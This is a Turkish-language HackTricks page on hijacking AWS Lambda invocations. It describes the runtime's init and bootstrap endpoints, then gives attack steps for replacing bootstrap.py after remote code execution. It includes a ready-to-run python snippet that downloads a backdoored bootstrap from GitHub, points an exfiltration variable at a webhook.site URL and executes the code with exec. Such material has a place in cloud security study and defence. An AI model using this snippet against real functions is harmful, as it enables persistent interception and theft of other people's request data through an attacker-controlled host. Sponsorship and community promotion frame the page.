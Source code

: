 # AWS - Lambda İsteklerini Çalma

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> ile sıfırdan kahramana kadar AWS hackleme öğrenin!</summary>

HackTricks'ı desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Family'yi**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuzu
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)'ı takip edin.
* **Hacking püf noktalarınızı paylaşarak PR'lar göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>

## Lambda Akışı

<figure><img src="../../../../.gitbook/assets/image (152).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer**, **invokasyonları** **init** işlemine **gönderen** bir konteyner dışı işlemdir.
2. Init işlemi, ilginç uç noktaları açığa çıkaran **9001** numaralı bağlantı noktasını dinler:
   * **`/2018-06-01/runtime/invocation/next`** – bir sonraki invokasyon etkinliğini al
   * **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – invokasyon için işleyici yanıtını döndür
   * **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – bir yürütme hatası döndür
3. **bootstrap.py**, init işleminden invokasyonları alan ve kullanıcı kodunu işlemek için çağrı yapan bir döngüye sahiptir (**`/next`**).
4. Son olarak, **bootstrap.py**, **yanıtı** init'e gönderir.

Bootstrap, kullanıcı kodunu bir modül olarak yükler, bu nedenle kullanıcı kodu tarafından gerçekleştirilen herhangi bir kod yürütme aslında bu işlemde gerçekleşmektedir.

## Lambda İsteklerini Çalma

Bu saldırının amacı, kullanıcı kodunu, zayıf isteği işleyen **`bootstrap.py`** işlemi içinde kötü amaçlı bir **`bootstrap.py`** işlemi yürütmeye zorlamaktır. Bu şekilde, **kötü amaçlı bootstrap** işlemi, istekleri işlemek için init işlemiyle **konuşmaya başlayacak** ve **meşru** bootstrap, kötü amaçlı olanı çalıştırırken **tuzağa düşmüş** olacağından init işleminden istek istemeyecektir.

Bu, kullanıcı kodunun meşru **`bootstrap.py`** işlemi tarafından yürütülüyor olması nedeniyle kolayca başarılabilir:

* **Mevcut invokasyonun sahte sonucunu init işlemine göndermek**, böylece init, bootstrap işleminin daha fazla invokasyon beklediğini düşünür.
* Bir istek, **`/${invoke-id}/response`**'a gönderilmelidir.
* invoke-id, meşru **`bootstrap.py`** işleminin yığınından [**inspect**](https://docs.python.org/3/library/inspect.html) python modülünü kullanarak (önerildiği gibi [burada](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)) veya sadece tekrar **`/2018-06-01/runtime/invocation/next`**'e istek göndererek (önerildiği gibi [burada](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)) elde edilebilir.
* Bir sonraki invokasyonları işleyecek kötü amaçlı **`boostrap.py`** yürütün.
* Gizlilik amaçlarıyla lambda invokasyon parametrelerini saldırganın kontrol ettiği C2'ye gönderip ardından istekleri normal şekilde işleyebilirsiniz.
* Bu saldırı için, mevcut lambda invokasyonundan **`bootstrap.py`**'ın orijinal kodunu almak yeterlidir, kötü amaçlı kodu ekleyip mevcut lambda invokasyonundan çalıştırmaktır.

### Saldırı Adımları

1. Bir **Uzaktan Kod Yürütme (RCE)** zafiyeti bulun.
2. Bir **kötü amaçlı** **bootstrap** oluşturun (örneğin [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. Kötü amaçlı bootstrap'ı **çalıştırın**.

Bu işlemleri kolayca çalıştırabilirsiniz.
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Daha fazla bilgi için [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## Referanslar

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

<details>

<summary><strong>AWS hacklemeyi sıfırdan kahramana öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamınızı görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'yi keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuzu
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)'da takip edin.**
* **Hacking püf noktalarınızı paylaşarak PR'lar göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>
